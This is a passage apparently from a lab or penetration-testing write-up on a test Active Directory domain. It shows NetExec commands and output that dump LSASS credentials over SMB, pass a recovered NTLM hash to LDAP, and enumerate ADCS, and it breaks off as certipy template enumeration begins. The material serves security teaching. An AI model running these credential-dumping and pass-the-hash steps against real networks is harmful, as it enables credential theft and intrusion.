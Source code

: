 ```
~$ nxc smb srv01.backward.rv -u 'gatari$' -p 'P@ssw0rd' -M lsassy
SMB         10.5.10.13      445    SRV01            [*] Windows Server 2022 Build 20348 x64 (name:SRV01) (domain:backward.rv) (signing:True) (SMBv1:False)
SMB         10.5.10.13      445    SRV01            [+] backward.rv\gatari$:P@ssw0rd (Pwn3d!)
LSASSY      10.5.10.13      445    SRV01            Saved 16 Kerberos ticket(s) to /home/kali/.nxc/modules/lsassy
LSASSY      10.5.10.13      445    SRV01            backward\iqbal.hassan dfd368bc95bd217c04415fed81c8933e
```

We can verify that these credentials are valid for the domain with `nxc`:

```
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e'                                
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e 
```

## Active Directory Certificate Services (ADCS)

In modern Active Directory environments, it's common to find [Active Directory Certificate Services (ADCS)](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview) deployed. ADCS is often used internally for issuing certificates for various purposes, such as provisioning `TLS` certificates for web servers - and these certificates [are also used for `LDAPS` (LDAP over SSL/TLS) connections](https://techcommunity.microsoft.com/blog/sqlserver/step-by-step-guide-to-setup-ldaps-on-windows-server/385362).

We can enumerate for the presence of `ADCS` by looking for the `pKIEnrollmentService` object class in `LDAP`:

```
~$ nxc ldap dc02.backward.rv -u 'iqbal.hassan' -H 'dfd368bc95bd217c04415fed81c8933e' --query "(objectClass=pKIEnrollmentService)" "cn dNSHostName" --base-dn 'CN=Configuration,DC=backward,DC=rv' 
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\iqbal.hassan:dfd368bc95bd217c04415fed81c8933e 
LDAP        10.5.10.12      389    DC02             [+] Response for object: CN=BACKWARD-ENTERPRISE-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=backward,DC=rv
LDAP        10.5.10.12      389    DC02             cn                   BACKWARD-ENTERPRISE-CA
LDAP        10.5.10.12      389    DC02             dNSHostName          DC02.backward.rv
```

We'll find that `ADCS` is deployed in `backward.rv`, with the `Certificate Authority (CA)` role installed on `dc02.backward.rv`. Additionally, the `Common Name (CN)` of the `CA` is `BACKWARD-ENTERPRISE-CA`.

## Enumerating Certificate Templates

The "go-to" tool for `ADCS` enumeration is [certipy](https://github.com/ly4k/Certipy), we can use this to list all the certificate templates that are available for enrollment:
